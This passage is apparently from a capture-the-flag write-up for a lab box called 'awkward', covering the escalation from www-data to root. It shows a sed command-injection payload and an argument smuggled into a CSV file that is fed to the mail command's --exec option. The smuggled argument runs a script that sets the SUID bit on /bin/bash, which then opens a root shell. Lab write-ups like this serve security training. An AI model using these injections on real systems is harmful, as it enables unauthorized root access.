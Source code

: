 ```sed -i '/item_id=' -e "1e /dev/shm/shell.sh" /dev/shm/shell.sh '/d' /var/www/store/cart/{$user_id}```
"inotifywait" command thats monitoring on that file.</p>
<img src="captures/cron.png" />
<p>So now that we are the www-data user we can write in that file.</p>

`www-data@awkward:~/private$ echo "vsvsdf" >> leave_requests.csv`
when entering that command and then going to see what happens in the pspy you can see:
<img src="captures/mail.png" />
as you can see the the last line of the file leave_requests.csv is add to the mail request. If you go to GTFObins https://gtfobins.github.io/gtfobins/mail/ you can manipulate the mail command and get a shell out of it, well in our case we can't get a shell because that command is not something we can control, but as we did for all that challenge with `awk` and `sed` here we are going to do in a similar manner escaping the real intention of what the admin wanted to do and executing malicious code that will elevate our privileges.
So how to do that? well it goes as follows:
<ol>
  <li>
  create a rev.sh file in /dev/shm and add the following:

  ```
  #!/usr/bin/bash
  chmod u+s /bin/bash
  ```
  `$ chmod +x rev.sh`
  <br>
  </li>
  <li>
  
  `www-data@awkward:~/private$ echo '" --exec="\!/dev/shm/rev.sh"' >> leave_requests.csv`
  
  </li>
  <li><br><img src="captures/rev.png" /></li>
  as you can see the rev.sh file was executed so now it's just a matter of

  ```
  bean@awkward:/dev/shm$ bash -p
bash-5.1# cat /root/root.txt
9704f20d3900154cc08f4f6cd503c684
  ```

</ol>   